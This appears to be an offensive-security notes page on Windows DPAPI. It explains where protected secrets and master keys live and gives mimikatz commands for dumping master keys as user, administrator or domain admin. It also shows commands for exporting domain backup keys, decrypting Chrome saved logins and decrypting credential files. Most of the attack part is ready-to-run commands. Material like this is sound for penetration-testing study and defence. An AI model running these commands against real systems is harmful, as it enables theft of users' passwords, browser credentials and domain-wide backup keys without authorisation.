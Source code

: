 # DPAPI secrets

## <mark style="color:red;">DPAPI</mark>

<mark style="color:green;">**The DPAPI (Data Protection API) is an internal component in the Windows system. It allows various applications to store sensitive data (e.g. passwords). The data are stored in the users directory and are secured by user-specific master keys derived from the users password. They are usually located at:**</mark>

```
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
```

Application like Google Chrome, Outlook, Internet Explorer, Skype use the DPAPI. Windows also uses that API for sensitive information like Wi-Fi passwords, certificates, RDP connection passwords, and many more.

#### DPAPI protects the following personal data:

* Passwords and form auto-completion data in Internet Explorer, Google \*Chrome
* E-mail account passwords in Outlook, Windows Mail, Windows Mail, etc.
* Internal FTP manager account passwords
* Shared folders and resources access passwords
* Wireless network account keys and passwords
* Encryption key in Windows CardSpace and Windows Vault
* Remote desktop connection passwords, .NET Passport
* Private keys for Encrypting File System (EFS), encrypting mail S-MIME, other user's certificates, SSL/TLS in Internet Information Services
* EAP/TLS and 802.1x (VPN and WiFi authentication)
* Network passwords in Credential Manager
* Personal data in any application programmatically protected with the API function CryptProtectData. For example, in Skype, Windows Rights Management Services, Windows Media, MSN messenger, Google Talk etc.

#### <mark style="color:green;">Below are common paths of hidden files that usually contain DPAPI-protected data.</mark>

```
C:\Users\$USER\AppData\Local\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\
```

## <mark style="color:red;">Extract a master key</mark>

If you know the password of the user who the master key belongs to and you can access the master key file you can obtain the master key with mimikatz and a command like the following one:

```
dpapi::masterkey /in:"C:\Users\spotless.OFFENSE\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /sid:S-1-5-21-2552734371-813931464-1050690807-1106 /password:123456 /protected
```

### <mark style="color:orange;">Extract all local Master Keys with Administrator</mark> <a href="#extract-all-local-master-keys-with-administrator" id="extract-all-local-master-keys-with-administrator"></a>

If you are administrator you can obtain the dpapi master keys using:

```
sekurlsa::dpapi
```

### <mark style="color:orange;">Extract all backup Master Keys with Domain Admin</mark> <a href="#extract-all-backup-master-keys-with-domain-admin" id="extract-all-backup-master-keys-with-domain-admin"></a>

A domain admin may obtain the backup dpapi master keys that can be used to decrypt the encrypted keys:

```
lsadump::backupkeys /system:dc01.offense.local /export
```

Using the retrieved backup key, let's decrypt user's `spotless` master key:

```
dpapi::masterkey /in:"C:\Users\spotless.OFFENSE\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /pvk:ntds_capi_0_d2685b31-402d-493b-8d12-5fe48ee26f5a.pvk
```

We can now decrypt user's `spotless` chrome secrets using their decrypted master key:

```
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /masterkey:b5e313e344527c0ec4e016f419fe7457f2deaad500f68baf48b19eb0b8bc265a0669d6db2bddec7a557ee1d92bcb2f43fbf05c7aa87c7902453d5293d99ad5d6
```

### <mark style="color:red;">Credential Files</mark>

The **credentials files protected by the master password** could be located in:

```
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

You can use **mimikatz module** `dpapi::cred` with the appropiate `/masterkey` to decrypt:

```
dpapi::cred /in:C:\path\to\encrypted\file /masterkey:<MASTERKEY>
```
